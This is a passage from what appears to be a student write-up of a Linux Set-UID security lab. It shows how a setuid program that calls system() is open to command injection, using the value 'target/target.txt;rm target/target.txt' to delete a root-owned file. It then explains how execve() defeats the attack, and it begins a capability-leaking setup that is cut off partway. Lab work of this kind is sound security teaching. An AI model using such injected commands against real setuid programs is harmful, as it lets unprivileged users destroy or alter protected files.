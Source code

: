 As root, create a mode 744 folder with a mode 755 file inside:

```bash
su
mkdir target
echo "This is a target file." > target/target.txt
chmod 4755 target/target.txt
chmod 4744 target
exit
```

We can execute multiple commands using `;`. So `/bin/cat target/target.txt; rm target/target.txt` will remove the file.

```bash
./mycat "target/target.txt;rm target/target.txt"
This is a target file.
ls -l target
total 0
```

Observation: The file `target.txt` is removed.

Therefore, Bob can compromise the integrity of the system by concatenating the malicious command after the target file.

### Step 2

Recompile the program using `execve()`, then execute the same attack:

```bash
./mycat "target/target.txt;rm target/target.txt"
/bin/cat: target/target.txt;rm target/target.txt: No such file or directory
```

Observation: The attack does not work.

Explanation: `execve()` does not invoke a shell, so the command is treated as a single argument. The `"target/target.txt;rm target/target.txt"` is passed as a single argument to `/bin/cat`, and is literally interpreted as a file name, which does not exist. Therefore, the attack fails.

## 2.6 Capability Leaking

1. Set up the program and the target file:

```bash
gcc -o capleak capleak.c
sudo chown root capleak
sudo chmod 4755 capleak
su
echo "Important system file." > /etc/zzz
ls -l /etc/zzz
exit
```

<img src="/images/2-6-1.PNG" style="zoom:67%;" />
